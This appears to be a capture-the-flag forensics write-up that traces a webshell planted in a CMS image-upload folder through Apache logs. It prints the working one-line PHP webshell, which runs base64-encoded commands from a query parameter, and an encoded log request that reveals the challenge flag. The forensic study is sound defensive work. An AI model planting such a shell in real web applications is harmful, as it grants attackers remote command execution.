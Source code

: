**Difficulty:** Easy

*Investigate and analyse the traces of an attack from an implanted webshell.*

#blue #forensics #webshell

Cipher’s legion of bots has exploited a known vulnerability in our web application, leaving behind a dangerous web shell implant. Investigate the breach and trace the attacker's footsteps!

---

Looking in the file system, the directory containing web application files is in `/var/www/html/CMSsite-master`. I looked for directories that might contain user uploaded files, suspecting the attacker may have been able to upload a webshell through the same method usual user content is uploaded. I looked into the `img` directory which contains images uploaded by users and one file that stands out, `images.php`.

This uploaded script appears to take in a base64 encoded query parameter, which an attacker could insert commands into. I decided to investigate http logs to see if I could find a request from the attacker.

`/var/log/html/CMSsite-master/img/images.php`: 

`<?php system(base64_decode($_GET['query'])); ?>`

In the apache2 logs, I was able to find this request using the web shell with what appeared to be a base64 encoded query parameter.

`/var/log/apache2/other_vhosts_acces.log`:

`ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:51:20 +0000] "GET /CMSsite-master/img/images.php?query=ZWNobyAnVEhNe3N1cDNyXzM0c3lfdzNic2gzbGx9Jwo= HTTP/1.1" 200 229 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"`

Decoding this in CyberChef gives the flag.
